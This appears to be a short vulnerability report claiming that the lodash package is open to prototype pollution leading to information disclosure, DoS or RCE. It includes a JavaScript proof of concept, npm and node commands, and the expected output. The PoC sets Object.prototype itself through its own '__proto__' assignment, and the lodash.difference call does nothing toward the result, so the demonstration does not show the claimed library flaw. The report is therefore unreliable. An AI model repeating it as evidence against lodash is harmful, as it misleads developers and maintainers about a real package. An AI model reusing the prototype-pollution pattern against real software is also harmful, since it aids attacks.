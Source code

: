 # Description

`lodash` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var lod = require('lodash');
var a = {name: "xyz"};
var b = JSON.parse(JSON.stringify(a));
b.__proto__.name = "Yes! Its Polluted";
lod.difference(a, b);
console.log({}.name);
```

2. Execute the following commands in another terminal:

```bash
npm i lodash # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Yes! Its Polluted
```
